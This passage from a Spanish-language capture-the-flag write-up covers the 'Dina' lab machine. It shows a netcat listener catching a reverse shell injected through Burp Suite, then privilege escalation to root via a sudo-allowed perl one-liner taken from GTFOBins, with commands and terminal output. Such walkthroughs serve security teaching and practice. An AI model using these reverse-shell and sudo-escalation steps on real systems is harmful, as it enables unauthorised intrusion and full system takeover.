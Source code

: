 ### Escucha con NetCat

```
❯ nc -lvnp 1234
listening on [any] 1234 ...

```
### Inyectar reverse shell con burpsuite

![](/assets/images/Dina_1_0_1/reverse_base64.png)

Dejamos pasar la petición con la shell inyectada y....

```
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.84] from (UNKNOWN) [192.168.1.63] 51716
bash: no job control in this shell
www-data@Dina:/var/www/SecreTSMSgatwayLogin$ 

```

Todo un exito, en este momento solo nos queda la escalada de privilegios.

## ESCALADA DE PRIVILEGIOS

Vamos a ver si tenemos algún permiso de super usuario como www-data con `sudo -l`.

```
sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
www-data@Dina:/var/www/SecreTSMSgatwayLogin$ 

```

<br>
Pues por lo que se ve, esta escalada de privilegios no va a durar mucho... Tiramos de <a href="https://gtfobins.github.io/" target="_blank">GTFOBins</a>
<br><br>

```
www-data@Dina:/var/www/SecreTSMSgatwayLogin$ whoami
whoami
www-data
www-data@Dina:/var/www/SecreTSMSgatwayLogin$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
whoami
root

```
Se acabó la escalada, esta vez ha sido sencilla y directa.
